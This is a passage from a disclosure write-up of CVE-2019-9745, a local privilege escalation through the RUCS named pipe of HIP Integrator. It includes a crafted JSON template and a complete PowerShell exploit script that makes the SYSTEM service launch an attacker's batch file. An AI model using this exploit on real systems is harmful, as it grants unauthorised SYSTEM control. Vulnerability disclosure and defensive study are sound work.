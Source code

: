 As the service process (*C:\Program Files (x86)\HIP Integrator\RUCS\RecognitionUpdateClientServiceService.exe*) runs with *NT AUTHORITY\SYSTEM* rights it has access to **all** facets of the system, which we now also have via the *CloudCTI.Datasources.ExquiseExporter.RUS2015.ExquiseExporterSettings.ExporterApplication* property. When this is crafted into the message the following JSON template is the result:

```JSON
{
    "Command":"WizardGetData",
    "Params":
    {
        "ReturnSize":RETURN_SIZE,
        "DatasourceType":"exquise exporter",
        "DatasourceSettings":
        {
            "ExquiseFolder":"FOLDER_NAME",
            "ExporterApplication":"APPLICATION_NAME"
        }
    },
    "Id":"RANDOM_VALUE"
}
```

Through trial&error it turns out the *ExporterApplication* can be a [batch](https://en.wikipedia.org/wiki/Batch_file) script which requires no downloading of additional resources and can be placed in a (user) directory that is under control of a user with low(er) privileges. As all users can write to the *RUCS20151029* Named Pipe the following [PowerShell](https://docs.microsoft.com/en-us/powershell/) script is used to send crafted JSON to the named pipe:

**CVE-2019-9745.ps1**:
```powershell
# Import .NET classes in Powershell.
add-Type -assembly "System.Core"
# Create required 'data' directory (per internal programming logic).
New-Item -ItemType directory -Path data -Force > $null
# Remove any cached results, which may block execution of the exploit.
Remove-Item -Path C:\Windows\Temp\exquiseexport.csv -Force -ErrorAction Ignore
$pipeName = '\RUCS20151029'
# Construct/configure a named pipe client.
$pipe = new-object System.IO.Pipes.NamedPipeClientStream(
    ".",
    $pipeName,
    [System.IO.Pipes.PipeDirection]::InOut,
    [System.IO.Pipes.PipeOptions]::Asynchronous,
    [System.Security.Principal.TokenImpersonationLevel]::Anonymous
);
$pipe.Connect(1000);
$pipe.ReadMode = [System.IO.Pipes.PipeTransmissionMode]::Message;
$pipeWriter = new-object System.IO.StreamWriter($pipe);
# Craft JSON payload that points to our external/own application (CVE-2019-9745.bat).
$payload = '{"Command":"WizardGetData","Params":{"ReturnSize":50,"DatasourceType":"exquise exporter","DatasourceSettings":{"ExquiseFolder":"C:\\Users\\hacker\\exploit","ExporterApplication":"C:\\Users\\hacker\\exploit\\CVE-2019-9745.bat"}},"Id":"' + $(Get-Random) + '"}'
# Properly encode the payload.
$payload = [System.Text.Encoding]::Unicode.GetBytes($payload)
# Send the payload.
$pipeWriter.Write($payload, 0, $payload.length);
$pipeWriter.flush()
```
